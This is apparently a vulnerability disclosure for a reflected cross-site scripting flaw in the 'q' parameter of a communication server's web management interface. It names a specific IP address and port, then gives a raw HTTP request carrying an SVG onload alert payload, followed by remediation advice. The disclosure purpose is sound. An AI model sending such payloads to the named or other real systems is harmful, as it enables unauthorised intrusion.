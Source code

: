 # q parameter xss vulnerability of the communication server web management system

### 企业官网(Enterprise official website)：

http://117.157.85.8:9092/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
GET /?callback=p5620&cat=javq6&categoryid=te9s2&emailto=ih705&from=s7mr2&immagine=q9kp4&jsonp=evxp0&key=jza06&keywords=rxvf3&lang=hqp59&list_type=twby9&mod=ndiw0&month=tq8g8&name=cshm7&q=<svg onload=alert(1)>//&region=yecb3&terms=eo7f1&token=y9kz9&url=veet0&view=n6ff4 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept-Charset: utf-8
Cookie: somecookie
Accept-Encoding: gzip
```

![](14.png)

### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.


